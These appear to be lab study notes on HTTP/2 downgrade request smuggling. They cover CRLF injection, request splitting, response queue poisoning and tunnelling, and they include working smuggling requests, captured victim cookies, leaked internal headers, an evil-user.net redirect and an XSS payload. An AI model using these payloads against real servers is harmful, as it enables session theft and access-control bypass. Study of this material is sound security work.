






# Request smuggling via CRLF injection

As HTTP/2 messages are binary rather than text-based, the boundaries of each header are based on explicit, predetermined offsets rather than delimiter characters. This means that `\r\n` no longer has any special significance within a header value and, therefore, can be included **inside** the value itself without causing the header to be split:

```http
HTTP/2
foo	bar\r\nTransfer-Encoding: chunked

HTTP/1
Foo: bar
Transfer-Encoding: chunked
```

Chained with [Capturing other user' requests](Exploiting%20HTTP%20Request%20Smuggling.md#Capturing%20other%20user'%20requests) technique to exfiltrate other user's secret:

*Home page* saves recent researches:
```html
...
<label>Recent searches:</label>
	<ul>
		<li><a href="/?search=xioqo5ya1%27%22%3c%3e">xioqo5ya1&apos;&quot;&lt;&gt;</a></li>
		<li><a href="/?search=test">test</a></li>
		<li><a href="/?search=foo">foo</a></li>
...
```

Injected a `Transfer-Encoding` header using CRLF and poisoned the request que to exfiltrate other user' requests inside my research history:
```http
:scheme: https
:method: POST
:path: /
:authority: 0a7500e8034d7b3680984966002000c7.web-security-academy.net
foo: bar\n\rTransfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0a7500e8034d7b3680984966002000c7.web-security-academy.net
Cookie: session=p9WPLt0MFzmYJVsXRUqDPUpHb4V3LiF0; _lab_analytics=VE803kxQQHMHBbYsL2ZBRfm6vGmn0qJwQKvLvJX7V1xLs73iGkaSsangy36V85SjtofPk0iyeUAEnbX4AKK2pot9C3EorBC01e8Safxe4Fo2H5c7ShLpCQBEikyxjRgYl3vjdHkFSTddh4Z6MWCoHoG73EktKbJlE57KwbJlGG6lD72wNdzyFnX2cJPOaa3ZgwUVOsKNvL6B5Q4XSWxOMwcVhTUOngDuJj0MShaUqNh7oy8X6voinUPmvDqePAZE
Content-Length: 700

search=x
```

Search history after user sent the request:
```html
...
<label>Recent searches:</label>
	<ul>
		<li><a href="/?search=xGET+%2f+HTTP%2f1.1%0d%0aHost%3a+0a7500e8034d7b3680984966002000c7.web-security-academy.net%0d%0acache-control%3a+max-age%3d0%0d%0asec-ch-ua%3a+%22Google+Chrome%22%3bv%3d%22113%22%2c+%22Chromium%22%3bv%3d%22113%22%2c+%22Not-A.Brand%22%3bv%3d%2224%22%0d%0asec-ch-ua-mobile%3a+%3f0%0d%0asec-ch-ua-platform%3a+%22Linux%22%0d%0aupgrade-insecure-requests%3a+1%0d%0auser-agent%3a+Mozilla%2f5.0+%28Victim%29+AppleWebKit%2f537.36+%28KHTML%2c+like+Gecko%29+Chrome%2f113.0.0.0+Safari%2f537.36%0d%0aaccept%3a+text%2fhtml%2capplication%2fxhtml%2bxml%2capplication%2fxml%3bq%3d0.9%2cimage%2favif%2cimage%2fwebp%2cimage%2fapng%2c*%2f*%3bq%3d0.8%2capplication%2fsigned-exchange%3bv%3db3%3bq%3d0.7%0d%0asec-fetch-site%3a+none%0d%0asec-fetch-mode%3a+navigate%0d%0asec-fetch-user%3a+%3f1%0d%0asec-fetch-dest%3a+document%0d%0aaccept-encoding%3a+gzip%2c+deflate%2c+br%0d%0aaccept-language%3a+en-US%2cen%3bq%3d0.9%0d%0acookie%3a+victim-fingerprint%3drT2aZA43c0VWrqLXwF10ASrLAcf7kntf%3b+secret%3dhVYxxLL33f4slsMf1evsoq9T4n4qIay1%3b+session%3dw2d3">xGET / HTTP/1.1
...
cookie: victim-fingerprint=rT2aZA43c0VWrqLXwF10ASrLAcf7kntf; secret=hVYxxLL33f4slsMf1evsoq9T4n4qIay1; session=w2d3erKlp3WIlT7Z6Mn4CVF8CLSkuBNE;
...
```

## Injecting via header names

By combining colons with `\r\n` characters, you may be able to use an HTTP/2 header's name field to sneak other headers past front-end filters. These will then be interpreted as separate headers on the back-end once the request is rewritten using HTTP/1 syntax:

```http
HTTP/2
foo: bar\r\nTransfer-Encoding: chunked\r\nX:	ignore

HTTP/1
Foo: bar\r\n
Transfer-Encoding: chunked\r\n
X: ignore\r\n
```

## Injecting via pseudo-headers

>[!tip] Remember
>When injecting into the `:path` or `:method` pseudo-headers, you need to make sure that the resulting HTTP/1 request still has a valid request line.
>After downgrading, the rewritten request must contain the following sequence prior to the first `\r\n` that you inject:
>`<method> + space + <path> + space + HTTP/1.1`

Front-end (HTTP/2)
```http
:method	GET
:path	
/example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x

:authority	vulnerable-website.com
```

Back-end (HTTP/1)
```http
GET /example HTTP/1.1\r\n
Transfer-Encoding: chunked\r\n
X: x HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

**Host**:
Although the HTTP/1 `Host` header is effectively replaced by the `:authority` pseudo-header in HTTP/2, you're still allowed to send a `host` header in the request as well.
In some cases, this may result in two `Host` headers occurring in the rewritten HTTP/1 request, which opens up another possibility for bypassing front-end "duplicate `Host` header" filters, for example, opening to [Host Header attacks](Host%20Header%20attacks.md).

**Path**:
As the path in HTTP/2 is specified using a pseudo-header, it's now possible to send a request with two distinct paths as follows:
```http
:method	POST
:path	/anything
:path	/admin
:authority	vulnerable-website.com
```
If there is a discrepancy between which path is validated by the website's [Access control security models](Access%20control%20security%20models.md) and which path is used to route the request, this may enable you to access endpoints that would otherwise be off limits, opening for [Access control vulnerabilities](Access%20control%20vulnerabilities.md)

**Method**:
If the server allows you to include spaces in the `:method` value, you may be able to inject an entirely different request line as follows:
```http
:method	GET /admin HTTP/1.1
:path	/anything
:authority	vulnerable-website.com
```

Once rewritten in HTTP/1, it becomes:
```http
GET /admin HTTP/1.1 /anything HTTP/1.1
Host: vulnerable-website.com
```

**Scheme**:
This can be useful when the server uses the `:scheme` header to dynamically generate a URL, for example. In this case, you could add a prefix to the URL or even override it completely by pushing the real URL into the query string:

*Request*
```http
:method	GET
:path	/anything
:authority	vulnerable-website.com
:scheme	https://evil-user.net/poison?
```

*Response*
```http
:status	301
location	https://evil-user.net/poison?://vulnerable-website.com/anything/
```

## HTTP/2 request splitting

When we looked at [Response queue poisoning](Exploiting%20Advanced%20Request%20Smuggling.md#Response%20queue%20poisoning), the split occurred inside the message body, but when HTTP/2 downgrading is in play, you can also cause this split to occur in the headers instead.

```http
:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: vulnerable-website.com
```

This approach is more versatile because you aren't dependent on using request methods that are allowed to contain a body. This is also useful in cases where the `content-length` is validated and the back-end doesn't support chunked encoding.

>[!warning] Account for front-end rewriting!
>To split a request in the headers, you need to understand how the request is rewritten by the front-end server and account for this when adding any HTTP/1 headers manually. For example, you need to ensure that both requests received by the back-end contain a `Host` header.
>
>Some front-end servers **append** the new `Host` header to the end of the current list of headers. Considering the request above, the results would be:
>```http
>GET / HTTP/1.1
>foo: bar
>
GET /admin HTTP/1.1
Host: vulnerable-website.com
Host: vulnerable-website.com
>```
In this case, you need to position your injected `Host` header so that it ends up in the first request once the split occurs:
>```http
>:method	GET
:path	/
:authority	vulnerable-website.com
foo	
bar\r\n
Host: vulnerable-website.com\r\n
\r\n
GET /admin HTTP/1.1
>```
>You will also need to adjust the positioning of **any internal headers** that you want to inject in a similar manner.

Sample request when server appends the `Host` header at the very end of every other header:
```http
:scheme: https
:method: POST
:path: /
:authority: 0a68008704d3c104811857a000d900c7.web-security-academy.net
cookie: session=EkKDs8vKnb94z1lXQzavrnGuDzECZ3D5
content-type: application/x-www-form-urlencoded
foo: bar\r\nHost: 0a68008704d3c104811857a000d900c7.web-security-academy.net\r\n\r\nGET /x HTTP/1.1
```


# Response queue poisoning

>[!info]
>This attack is possible both via HTTP/1 request smuggling and [HTTP/2 downgrading](HTTP-2%20downgrading.md)

Response queue poisoning is a powerful form of request smuggling attack that causes a front-end server to **start mapping responses from the back-end to the wrong requests**. This is achieved by smuggling a **complete request**, thereby eliciting two responses from the back-end when the front-end server is only expecting one.

Once the queue is poisoned, an attacker can capture other users' responses simply by issuing arbitrary follow-up requests.

**Pre-requisites:**
- TCP **connection** between the front-end server and back-end server is **reused for multiple request/response cycles**.
- Attacker is able to successfully **smuggle a complete, standalone request** that receives its own distinct response from the back-end server (you can also use the [HTTP/2 request splitting](Exploiting%20Advanced%20Request%20Smuggling.md#HTTP/2%20request%20splitting) technique).
- Attack does **not** result in either server **closing the TCP connection**. (*Servers generally close incoming connections when they receive an invalid request because they can't determine where the request is supposed to end*)

An example of a server closing the connection is when as a result of a smuggling attack, the server receives excess bytes that do not make up a valid request:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: vulnerable-website.com
```

The TE back-end server interprets the following request in this way:
```http
Request 1:
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 120
Transfer-Encoding: chunked

0

Request 2:
POST /example HTTP/1.1
Host: vulnerable-website.com
Content-Type: x-www-form-urlencoded
Content-Length: 25

x=GET / HTTP/1.1
Host: v

Request 3 (not valid, so closing the connection):
ulnerable-website.com
```

This can be easily fixed by smuggling a **complete request**:
```http
POST / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
Content-Type: x-www-form-urlencoded\r\n
Content-Length: 61\r\n
Transfer-Encoding: chunked\r\n
\r\n
0\r\n
\r\n
GET /anything HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
GET / HTTP/1.1\r\n
Host: vulnerable-website.com\r\n
\r\n
```

>[!danger]
>When you smuggle a complete request, the front-end server still thinks it only forwarded a single request. On the other hand, the back-end sees two distinct requests, and will send two responses accordingly. The first response is bounded to the first request and forwarded to the client. **The unexpected second response is held in a queue on the connection between the front-end and back-end.** 
>
>When the front-end receives another request, it forwards this to the back-end as normal. However, when issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.
>
>Once the response queue is poisoned, the attacker can just send an arbitrary request to capture another user's response.
>
>

An attacker can continue to steal responses like this for as long as the front-end/back-end connection remains open. Exactly when a connection is closed differs from server to server, but a common default is to terminate a connection after it has handled 100 requests.

>[!tip] 
>To make it easier to differentiate stolen responses from responses to your own requests, try using a non-existent path in both of the requests that you send. That way, your own requests should consistently receive a 404 response, for example.

H2.TE complete smuggling request:
```http
POST / HTTP/2
Host: 0afc00ca0446b36e80b5df0000b700cd.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 89

0

GET /x HTTP/1.1
Host: 0afc00ca0446b36e80b5df0000b700cd.web-security-academy.net
```

Response 1:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=wlmiF2SlpSDRYSidwWjeTTSVmc29kTjW; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 10396
```

Response 2:
```http
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=HtSvw81O1CPbNGfj2N1dijtWPdpprYfe; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Response ...n (admin my-account):
```http
HTTP/2 302 Found
Location: /my-account
Set-Cookie: session=hrF8iMghvGseTRSkv9iCtkuIXfvyTh4H; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

# HTTP request tunneling

>[!into]
>Request tunnelling is possible with both HTTP/1 and [HTTP/2 downgrading](HTTP-2%20downgrading.md)

Many of the request smuggling attacks we've covered are only possible because the same connection between the front-end and back-end handles multiple requests. However, some others simply won't reuse the connection at all, which limits what you can achieve through classic request smuggling as you have no obvious way to influence other users' traffic.

Although you can't poison the socket to interfere with other users' requests, **you can still send a single request that will elicit two responses from the back-end**. This potentially enables you to **hide a request** and its matching response from the front-end altogether.

>[!tip]
>Detecting this behavior in HTTP/2 is quite trivial. If you receive an HTTP/2 response with what appears to be an HTTP/1 response in the body, you can be confident that you've successfully tunneled a second request.

## Leaking internal headers via HTTP/2 request tunnelling

You can potentially trick the front-end into appending the internal headers inside what will become a body parameter on the back-end. Let's say we send a request that looks something like this:


```http
:scheme: https
:method: GET
:path: /
:authority: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net
cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV
foo: bar\r\n
\r\n
POST /post/comment HTTP/1.1\r\n
Host: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net\r\n
Cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV\r\n
Content-Length: 245\r\n
Content-Type: application/x-www-form-urlencoded\r\n
\r\n
csrf=PGNtG2ry88mKd8tugKUGR1Dx3r589X6u&postId=2&name=foo&email=foo%40bar.lol&website=&comment=: a
```

The front-end sees **everything we've injected as part of a header-name**, so adds any new headers after the trailing `a` string. 
```http
GET / HTTP/1.1
Host: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net
Cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV
Foo: Bar\r\n\r\nPOST /post/comment HTTP/1.1\r\nHost: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net\r\nCookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV\r\nContent-Length: 245\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\ncsrf=PGNtG2ry88mKd8tugKUGR1Dx3r589X6u&postId=2&name=foo&email=foo%40bar.lol&website=&comment=: a-- INTERNAL HEADERS HERE --
```

On the other hand, the back-end sees the `\r\n\r\n` sequence and thinks this is the end of the headers. The `comment=: a` string, along with the internal headers, are treated as part of the body. The result is a `comment` parameter with the internal headers as its value.
```http
:scheme: https
:method: GET
:path: /
:authority: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net
cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV
foo: bar

POST /post/comment HTTP/1.1
Host: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net
Cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV
Content-Length: 245
Content-Type: application/x-www-form-urlencoded

csrf=PGNtG2ry88mKd8tugKUGR1Dx3r589X6u&postId=2&name=foo&email=foo%40bar.lol&website=&comment=: a cookie: session=WEWWwB036vCIXaCN8nXdGQJhslSZbLBV X-SSL-VERIFIED: 0 X-SSL-CLIENT-CN: null X-FRONTEND-KEY: 9507294920739117 Content-Length: 0
```


## Blind request tunneling and Non-blind tunnelling using HEAD

>[!TLDR]- TLDR
Some front-end servers read in all the data they receive from the back-end. This means that they will potentially forward both responses to the client, with the response to the tunnelled request nested inside the body of the main response.
>
>Other front-end servers only read in the number of bytes specified in the `Content-Length` header of the response, so only the first response is forwarded to the client. This results in a blind request tunnelling vulnerability because you won't be able to see the response to your tunnelled request.

You can occasionally transform a blind request tunneling into a non-blind one using the `HEAD` HTTP method (or some reflected parameters).

>[!info]
>Responses to `HEAD` requests often contain a `content-length` header even though they don't have a body of their own. This normally refers to the length of the resource that would be returned by a `GET` request to the same endpoint.

Some front-end servers fail to account for this and attempt to read in the number of bytes specified in the header regardless. If you successfully tunnel a request past a front-end server that does this, this behavior may cause it to over-read the response from the back-end. As a result, the response you receive may contain bytes from the start of the response to your tunnelled request.

>[!tip]
>- Point your `HEAD` request to a different endpoint that returns a longer or shorter resource as required.
>- If the `HEAD` resource is too short, use a reflected input in the main `HEAD` request to inject arbitrary padding characters. Even though you won't actually see your input being reflected, the returned `content-length` will still increase accordingly.
>- If the resource is too long, use a reflected input in the tunnelled request to inject arbitrary characters so that the length of the tunnelled response matches or exceeds the length of the expected content.

*Request*
```http
HEAD / HTTP/2
Host: 0a2d008204c57a6b82e3f6e2007600c2.web-security-academy.net
```

*Response* (note the content length)
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=UlRoGsxzF1WIPqv4STh6K9TlSC51km3w; Secure; HttpOnly; SameSite=None
Content-Length: 8549             // this means that a GET request to / would have 8549 bytes in the response
X-Frame-Options: SAMEORIGIN
```

`HEAD` and `GET` content length are different and the application trigger a 500 Internal Server Error:
```http
:scheme: https
:method: HEAD
:path: /
:authority: 0ac1001304e79d6a8311a02000270079.web-security-academy.net
cookie: session=ToBtqOGOcuW3Ki6R5x0mxIUJBMVOigOc
foo: bar

GET /admin HTTP/1.1
Host: 0ac1001304e79d6a8311a02000270079.web-security-academy.net
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 7952412228922605

: bar

---

TTP/2 500 Internal Server Error
Content-Type: text/html; charset=utf-8
Content-Length: 151

<html><head><title>Server Error: Proxy error</title></head><body><h1>Server Error: Received only 3364 of expected 8526 bytes of data</h1></body></html>
```

Fixed the length targeting a different endpoint and exfiltrated `/admin` data:
```http
:scheme: https
:method: HEAD
:path: /login
:authority: 0ac1001304e79d6a8311a02000270079.web-security-academy.net
cookie: session=ToBtqOGOcuW3Ki6R5x0mxIUJBMVOigOc
foo: bar

GET /admin HTTP/1.1
Host: 0ac1001304e79d6a8311a02000270079.web-security-academy.net
X-SSL-VERIFIED: 1
X-SSL-CLIENT-CN: administrator
X-FRONTEND-KEY: 7952412228922605

: bar

---

HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Set-Cookie: session=WW6JSoSrxjUPtCwnZX1iPvFkN8m4QCwf; Secure; HttpOnly; SameSite=None
Content-Length: 2993
X-Frame-Options: SAMEORIGIN

HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=ek2Wwd3zOlrt0Y18yPCsZLmrIhSc5AcV; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Keep-Alive: timeout=0
Content-Length: 2945
...
<a href="/admin/delete?username=wiener">Delete</a>
```

>[!success]- Solution without using `HEAD`
Exploited the request tunnelling to access `/admin` with the second request (internal headers has been previously leaked):
>```http
:scheme: https
:method: GET
:path: /admin
:authority: 0a56008e04243cc4826da1cb00360041.web-security-academy.net
cookie: session=GCBNR6VKsT3qtd721L9Hu1EQts1Vk4mr
foo: bar\r\n
X-SSL-VERIFIED: 1\r\n
X-SSL-CLIENT-CN: administrator\r\n
X-FRONTEND-KEY: 3754690398907899\r\n
Content-Length: 0\r\n
\r\n
GET / HTTP/1.1\r\n
Host: 0a56008e04243cc4826da1cb00360041.web-security-academy.net\r\n
asd: test
>```
>
>*Response*
>```http
HTTP/2 200 OK
>
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=Q1wl2OJNOdrhjRK4mwxCUHwyfSEGNcAG; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 2945
...
><a href="/admin">Admin panel</a>
><section><h1>Users</h1><div>	<span>wiener - </span><a href="/admin/delete?username=wiener">Delete</a></div><div><span>carlos - </span>	<a href="/admin/delete?username=carlos">Delete</a></div></section>
>```

## Web cache poisoning via HTTP/2 request tunneling

Even though request tunneling is more limited then classic request poisoning, you may be able to combine these techniques far for an extra-powerful form of [Web Cache Poisoning](Web%20Cache%20Poisoning.md).

With non-blind request tunnelling, you can effectively mix and match the headers from one response with the body of another. If the response in the body reflects unencoded user input, you may be able to leverage this behavior for [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) in contexts where the browser would not normally execute the code.

>[!example]
>The following response contains unencoded, attacker-controllable input, which is harmless because it is interpreted as a JSON response:
>```http
>HTTP/1.1 200 OK
Content-Type: application/json
>
{ "name" : "test<script>alert(1)</script>" }
[etc.]
>```
>But consider what would happen if you tunnel the request to the back-end instead. This response would appear inside the body of a different response, effectively inheriting its headers, including the `content-type`:
>```http
>:status	200
content-type	text/html
content-length	174
HTTP/1.1 200 OK
Content-Type: application/json
>
{ "name" : "test<script>alert(1)</script>" }
[etc.]
>```

As caching takes place on the front-end, caches can also be tricked into serving these mixed responses to other users, opening for [Web Cache](Web%20Cache.md).

Tunneled (and cached) response:



Injected a [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) caching an arbitrary payload with a redirection (10k `A` used as filler to "saturate" the expected `Content-Length`):




